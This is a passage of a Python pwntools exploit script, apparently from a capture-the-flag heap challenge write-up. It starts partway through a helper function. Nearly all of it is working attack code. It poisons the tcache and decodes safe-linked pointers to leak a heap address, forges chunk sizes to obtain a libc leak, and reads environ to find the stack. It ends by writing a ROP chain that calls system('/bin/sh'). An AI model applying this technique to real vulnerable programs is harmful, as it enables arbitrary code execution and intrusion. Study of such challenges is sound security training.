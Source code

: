 ```py
    sla(b"Size:", str(size).encode())
    if not note == b"":
        sa(b"Note:", note)

def free(idx):
    sla(b"choice:", b"4")
    sla(b"Index:", str(idx).encode())
    sla(b"Size:", b"0")


# we prepare some our arbitrary write later by incrmeneting tcache->count[] for 0x50 sized chunks
add(0x50, b"D") # 0
add(0x50, b"D") # 1
free(0)
delete(1)

# get leak
add(0x30, b"A"*0x30) # 1
add(0x30, b"B"*0x30) # 2
delete(1)
free(2)
view(2)
ru(b"Note: ")
x = unpack(p.recv(6), "all")
heap_leak = (x >> 12 ^ (x >> 36 << 12) ^ ((x >> 24 ^ x >> 36) & 0xfff)) << 12
log.info(f"heap leak @ {hex(heap_leak)}")

# tcache unlink
edit(2, 0x40, p64((heap_leak + 0xb0) ^ heap_leak >> 12))

# write tcache->bins[0x60].ptr
add(0x30, b"C") # 1
add(0x30, p64(heap_leak+0xa0)) # 3
# write malloc_usable_size for chunk 2
add(0x50, p64(0) + p64(0x52)) # 4
edit(3, 0x40, p64(heap_leak+0x10))

# write tcache->bins[0x60].size
# we set tcache->bins[0xc0].size = 7 (so any subsequent chunks go into unsorted bin)
add(0x50, p16(0)*4 + p16(3) + p16(0)*5 + p16(7)) # 5

# free 0xc0 into unsorted bin and get libc leak
edit(3, 0x40, p64(heap_leak+0x2a0-0x10))
add(0x50, b"Z"*8 + p64(0xc1) + p64(0)*2) # 6
free(0)
view(0)
ru(b"Note: ")
libc.address = unpack(p.recv(6), "all") - 0x203b20
log.info(f"libc leak @ {hex(libc.address)}")

# leak environ
edit(3, 0x40, p64(libc.sym.environ-0x18)) # 7
add(0x50, b"A"*24)
view(7)
ru(b"A"*24)
stack_addr = unpack(p.recv(6), "all") - 0x138
log.info(f"libc leak @ {hex(stack_addr)}")

# rop chain on stack
r = ROP(libc)
r.call(r.ret)
r.system(next(libc.search(b"/bin/sh")))
edit(3, 0x40, p64(stack_addr))
```